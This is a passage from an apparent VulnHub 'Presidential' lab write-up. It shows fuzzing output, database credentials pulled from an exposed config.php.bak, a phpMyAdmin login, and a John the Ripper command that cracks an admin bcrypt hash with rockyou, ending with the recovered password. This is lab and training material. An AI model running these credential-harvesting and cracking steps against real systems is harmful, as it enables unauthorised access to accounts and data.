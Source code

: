 ```
[!] Keyboard interrupt detected, terminating.
Progress: 33874 / 2205610 (1.54%)
```
After some time fuzzing we finally found something. Let's turn our attention to **config.php.bak** and find credentials:

```php
<?php

$dbUser = "votebox";
$dbPass = "casoj3FFASPsbyoRP";
$dbHost = "localhost";
$dbname = "votebox";

?>
```

At this point we try these credentials in **phpmyadmin**. And we are in:

![](/assets/images/2024-08-14-vulnhub-Presidential/phpmyadmin_interface.png))


## Scanning PhpMyAdmin

In **votebox** data base we can see **users** table and found **admin** user and his password but that password encrypted whit bcrypt. In this point we can crack the password whit John The Ripper:
```
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
This process will take a while, but when it is finished you will find the password:

```
$2a$12$d/nOEjKNgk/epF2BeAFaMu8hW4ae3JJk8ITyh48q97awT/G7eQ11i:Stella
```
